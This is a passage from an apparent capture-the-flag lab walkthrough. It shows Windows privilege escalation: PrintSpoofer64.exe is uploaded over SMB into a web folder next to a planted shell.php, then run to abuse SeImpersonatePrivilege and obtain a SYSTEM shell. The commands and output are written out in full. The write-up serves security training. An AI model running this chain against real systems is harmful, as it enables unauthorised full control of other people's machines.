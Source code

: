 Now that's done, let's move forward with our Privilege Escalation.

## Priv Esc to Administrator and retrieve the Root Flag
If you still remember, we have the `SeImpersonatePrivilege` privilege which we will use as our attack vector for priv esc.

Let's go back to our SMB instance (open another Terminal, don't exit your shell!) and upload an exploit to escalate our privileges.

```sh
$ smbclient //10.10.44.132/images$

Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 27 02:19:19 2021
  ..                                  D        0  Wed Jan 27 02:19:19 2021
  internet-1028794_1920.jpg           A   134193  Mon Jan 11 05:52:24 2021
  man-1459246_1280.png                A   363259  Mon Jan 11 05:50:49 2021
  monitor-1307227_1920.jpg            A   691570  Mon Jan 11 05:50:29 2021
  neon-sign-4716257_1920.png          A  1461192  Mon Jan 11 05:53:59 2021

                10861311 blocks of size 4096. 4126378 blocks available
smb: \> put PrintSpoofer64.exe
putting file PrintSpoofer64.exe as \PrintSpoofer64.exe (4.7 kb/s) (average 4.7 kb/s)
```

Now that we have PrintSpoofer uploaded, let's go back to our shell and execute this exploit.

```sh
C:\Installs> cd C:\xampp\htdocs\images

C:\xampp\htdocs\images> dir

Volume in drive C has no label.
Volume Serial Number is 481F-824B

Directory of C:\xampp\htdocs\images

16/04/2021  18:48    <DIR>          .
16/04/2021  18:48    <DIR>          ..
10/01/2021  22:52           134,193 internet-1028794_1920.jpg
10/01/2021  22:50           363,259 man-1459246_1280.png
10/01/2021  22:50           691,570 monitor-1307227_1920.jpg
10/01/2021  22:53         1,461,192 neon-sign-4716257_1920.png
16/04/2021  18:48            27,136 PrintSpoofer64.exe
16/04/2021  18:47             9,142 shell.php
               6 File(s)      2,686,492 bytes
               2 Dir(s)  16,013,606,912 bytes free

C:\xampp\htdocs\images> PrintSpoofer64.exe -i -c cmd

[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
